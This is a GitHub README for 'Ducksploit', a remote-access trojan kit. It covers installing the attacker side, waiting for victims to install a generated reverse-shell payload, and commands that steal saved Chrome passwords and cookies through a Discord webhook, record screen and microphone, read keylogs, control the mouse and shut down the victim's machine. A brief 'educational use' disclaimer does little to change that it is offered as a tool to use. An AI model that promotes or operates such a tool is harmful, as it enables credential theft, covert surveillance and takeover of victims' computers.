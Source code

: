 <img src="https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/dsbanner.png" alt="banner"/>

![](https://img.shields.io/badge/Version-1.0.7-red?style=for-the-badge) ![](https://img.shields.io/github/stars/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](https://img.shields.io/github/issues/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](	https://img.shields.io/github/forks/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](https://img.shields.io/github/license/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](https://img.shields.io/badge/Windows-blue?style=for-the-badge)

> Awsome crossbreed of c#, batch, powershell and python on Windows n linux ♥
 <center>
<img src="https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/windows-10.png?raw=true" alt="win10" widith="100" height="100"/>
</center>

## Install Ducksploit

#### Hacker
###### setup Windows/Linux
1. Download the hacker's version for your version (win/linux)
2. Extract downloaded zip file
3. Launch the setup.exe/install.sh
4. Type ds in your terminal
5. And done! 

###### setup Android
 1. Download last version of ds android
 2. Install the ds.apk file
 3. Set your port
 4. Click on START SERVER button
 5. And wait till someone install your payload

 **⚠️DS ANDROID'S PAYLOAD GENERATION IS NOT ACTUALLY WORKING
 TO GET YOUR PAYLOAD PLEASE GO IN OUR DISCORD SERVER⚠️**


#### Victim
Just install the generated payload and that will start automaticaly the client of the reverse shell

:warning: Ducksploit is made for legal use or educational use (then, we are not responsible for any crimes committed by our users):warning:

## Uninstall Ducksploit (windows/linux)

1. type 'ds uninstall' in cmd
2. Done  :smile:

## Uninstall DuckSploit for Android

 1. Delete the app from your phone
 
## SUPPORT
support us with     
<noscript><a href="https://www.paypal.com/paypalme/Canarddu38"><img alt="Donate 👍 using Paypal" src="https://www.paypalobjects.com/webstatic/mktg/Logo/pp-logo-200px.png"></a></noscript>        or        <noscript><a href="https://www.patreon.com/ducksploit"><img alt="Donate 👍 using Patreon" src="https://forum.cwowd.com/uploads/default/original/3X/6/d/6d1cdda143cc46667d87659d64d15a869a9b6139.png" width="100" height="100"></a></noscript>

## **Commands**
<img src="https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/mindmap.png?raw=true">




#### Launch
| Command | Usage | Result |
| ------------- | ------------- | ------------- |
| wait    | wait | wait your victim's connection |


#### Account
| Command | Usage    | Result |
| ------------- | ------------- | ------------- |
| info | info | view all your account's infos |

#### Exploits
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| stealpwds | stealpwds (discord webhook url) | steal all saved chrome passwords of your victim and send them into a discord webhook |
| stealcookies  | stealcookies (discord webhook url) | steal all saved chrome cookies of your victim and send them into a discord webhook |
| open  | open (applicationname.exe) | open mensioned application |
| recordscreen  | recordscreen (time in second) | record victim's screen durring amount of time |
| recordmicro  | recordmicro (time in second) | record victim's micro durring amount of time |

## ⚠️ To get your victim's keylogs, go on 'http://{ip of your victim}:8080/keylogger/' ⚠️

#### Mouse
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| mouseclick | mouseclick [left, right, middle] | make the victim click the mensionned button |
| mousemove | mousemove (x) (y) | move the victim's cursor by x and y pixels |
| locatemouse | locatemouse | get the victim's cursor current locations |

#### Alert Window
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| msg | msg (title) (line1) (line2) | create an alertbox and send it on the vitim's pc with a title and 2 lines (if -file set line1 to createfile command content)

#### Troll
| Command | Usage | Result |
| ------------- | ------------- | ------------- |
| skull   | skull | spam cmds with skull and crossbones |

#### Mysc 
| Command      | Usage       | Result                            |
|--------------|-------------|-----------------------------------|
| uninstall    | uninstall   | uninstall ducksploit              |
| update       | update      | update ducksploit                 |
| credits      | credits     | view ducksploit's credits         |
| help         | help        | getting the list of all commands  |
| shutdown     | shutdown    | make the victim's pc shutdown     |
| reboot       | reboot      | make the victim's pc reboot       |
| closesession | closesesion | make the victim's session close   |
